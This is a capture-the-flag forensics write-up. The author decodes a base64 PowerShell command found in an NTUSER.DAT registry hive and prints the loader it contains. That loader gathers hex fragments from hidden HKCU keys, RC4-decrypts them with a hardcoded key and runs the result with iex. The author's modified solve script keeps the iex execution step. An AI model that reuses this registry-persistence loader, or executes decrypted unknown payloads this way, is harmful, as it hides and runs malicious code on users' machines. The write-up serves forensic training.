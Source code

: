 # FORENSICS - GOLDEN PERSISTANCE

In this challenge we are given a MS Windows registry file called NTUSER.DAT


	file NTUSER.DAT
![NTUSER.DAT: MS Windows registry file, NT/2000 or above ](images/FORENSICS-GoldenPersistance-1.png  "file NTUSER.DAT")

To take a first approach to this challenge, I thought the best idea would be to cat the file so, that's what I did.

	cat NTUSER.DAT	


If we scroll up a bit, we will be able to see what seems to be a base64 encoded Powershell command:

![base64 encoded  Powershell command](images/FORENSICS-GoldenPersistance-2.png  "cat NTUSER.DAT")

Then we can proceed to decode it. To achieve this goal, we can use the following:

	echo "base64_encoded_string" | base64 -d

![echo "base64_encoded_string" | base64 -d](images/FORENSICS-GoldenPersistance-3.png "echo "base64_encoded_string" | base64 -d")

The output consists in a little Powershell script. Even though the format is not very good, at the last part of the script we can see that it takes some values from the MS registry file and concatenates them. Later it tries to decrypt the sequence.

```
function encr {
    param(
        [Byte[]]$data,
        [Byte[]]$key
      )
 
    [Byte[]]$buffer = New-Object Byte[] $data.Length
    $data.CopyTo($buffer, 0)
    
    [Byte[]]$s = New-Object Byte[] 256;
    [Byte[]]$k = New-Object Byte[] 256;
 
    for ($i = 0; $i -lt 256; $i++)
    {
        $s[$i] = [Byte]$i;
        $k[$i] = $key[$i % $key.Length];
    }
 
    $j = 0;
    for ($i = 0; $i -lt 256; $i++)
    {
        $j = ($j + $s[$i] + $k[$i]) % 256;
        $temp = $s[$i];
        $s[$i] = $s[$j];
        $s[$j] = $temp;
    }
 
    $i = $j = 0;
    for ($x = 0; $x -lt $buffer.Length; $x++)
    {
        $i = ($i + 1) % 256;
        $j = ($j + $s[$i]) % 256;
        $temp = $s[$i];
        $s[$i] = $s[$j];
        $s[$j] = $temp;
        [int]$t = ($s[$i] + $s[$j]) % 256;
        $buffer[$x] = $buffer[$x] -bxor $s[$t];
    }
 
    return $buffer
}


function HexToBin {
    param(
    [Parameter(
        Position=0, 
        Mandatory=$true, 
        ValueFromPipeline=$true)
    ]   
    [string]$s)
    $return = @()
    
    for ($i = 0; $i -lt $s.Length ; $i += 2)
    {
        $return += [Byte]::Parse($s.Substring($i, 2), [System.Globalization.NumberStyles]::HexNumber)
    }
    
    Write-Output $return
}

[Byte[]]$key = $enc.GetBytes("Q0mmpr4B5rvZi3pS")
$encrypted1 = (Get-ItemProperty -Path HKCU:\SOFTWARE\ZYb78P4s).t3RBka5tL
$encrypted2 = (Get-ItemProperty -Path HKCU:\SOFTWARE\BjqAtIen).uLltjjW
$encrypted3 = (Get-ItemProperty -Path HKCU:\SOFTWARE\AppDataLow\t03A1Stq).uY4S39Da
$encrypted4 = (Get-ItemProperty -Path HKCU:\SOFTWARE\Google\Nv50zeG).Kb19fyhl
$encrypted5 = (Get-ItemProperty -Path HKCU:\AppEvents\Jx66ZG0O).jH54NW8C
$encrypted = "$($encrypted1)$($encrypted2)$($encrypted3)$($encrypted4)$($encrypted5)"
$enc = [System.Text.Encoding]::ASCII
[Byte[]]$data = HexToBin $encrypted
$DecryptedBytes = encr $data $key
$DecryptedString = $enc.GetString($DecryptedBytes)
$DecryptedString|iex
```

At this point, I spent some time trying to find a way to read these values. After a while, I found a tool called [Registry Explorer](https://ericzimmerman.github.io/#!index.md) from Eric Zimmerman. As this tool only works on Windows, I opened a Windows virtual machine to run it.

As we can see, once the file is opened, getting the values is pretty straight forward.

![Registry Explorer](images/FORENSICS-GoldenPersistance-4.png  "Registry Explorer")

Now we only need to modify the given script and fix a few things.
After some debugging we finally obtain the following:

```
function encr {
    param([Byte[]]$data,[Byte[]]$key)

    [Byte[]]$buffer = New-Object Byte[] $data.Length
    $data.CopyTo($buffer, 0)

    [Byte[]]$s = New-Object Byte[] 256;
    [Byte[]]$k = New-Object Byte[] 256;

    for ($i = 0; $i -lt 256; $i++)
    {
        $s[$i] = [Byte]$i;
        $k[$i] = $key[$i % $key.Length];
    }

    $j = 0;
    for ($i = 0; $i -lt 256; $i++)
    {
        $j = ($j + $s[$i] + $k[$i]) % 256;
        $temp = $s[$i];
        $s[$i] = $s[$j];
        $s[$j] = $temp;
    }

    $i = $j = 0;
    for ($x = 0; $x -lt $buffer.Length; $x++)
    {
        $i = ($i + 1) % 256;
        $j = ($j + $s[$i]) % 256;
        $temp = $s[$i];
        $s[$i] = $s[$j];
        $s[$j] = $temp;
        [int]$t = ($s[$i] + $s[$j]) % 256;
        $buffer[$x] = $buffer[$x] -bxor $s[$t];
    }

    return $buffer
}


function HexToBin {
    param([Parameter(Position=0,Mandatory=$true,ValueFromPipeline=$true)][string]$s)
    $return = @()

    for ($i = 0; $i -lt $s.Length ; $i += 2)
    {
        $return += [Byte]::Parse($s.Substring($i, 2), [System.Globalization.NumberStyles]::HexNumber)
    }

    Write-Output $return
}

$encrypted1 = "F844A6035CF27CC4C90DFEAF579398BE6F7D5ED10270BD12A661DAD04191347559B82ED546015B07317000D8909939A4DA7953AED8B83C0FEE4EB6E120372F536BC5DC39"
$encrypted2 = "CC19F66A5F3B2E36C9B810FE7CC4D9CE342E8E00138A4F7F5CDD9EED9E09299DD7C6933CF4734E12A906FD9CE1CA57D445DB9CABF850529F5845083F34BA1"
$encrypted3 = "C08114AA67EB979D36DC3EFA0F62086B947F672BD8F966305A98EF93AA39076C3726B0EDEBFA10811A15F1CF1BEFC78AFC5E08AD8CACDB323F44B4D"
$encrypted4 = "D814EB4E244A153AF8FAA1121A5CCFD0FEAC8DD96A9B31CCF6C3E3E03C1E93626DF5B3E0B141467116CC08F92147F7A0BE0D95B0172A7F34922D6C236BC7DE54D8ACBFA70D1"
$encrypted5 = "84AB553E67C743BE696A0AC80C16E2B354C2AE7918EE08A0A3887875C83E44ACA7393F1C579EE41BCB7D336CAF8695266839907F47775F89C1F170562A6B0A01C0F3BC4CB"
$encrypted = "$($encrypted1)$($encrypted2)$($encrypted3)$($encrypted4)$($encrypted5)"
Write-Output $encrypted
$enc=[System.Text.Encoding]::ASCII
[Byte[]]$key = $enc.GetBytes('Q0mmpr4B5rvZi3pS')
Write-Output $key
Write-Output $key.Length
[Byte[]]$data = HexToBin  $encrypted
$DecryptedBytes= encr $data $key
$DecryptedString = $enc.GetString($DecryptedBytes)
Write-Output $DecryptedString
$DecryptedString|iex

```

Running this modified script eventually gives us the flag!

![Flag](images/FORENSICS-GoldenPersistance-5.png "Flag")
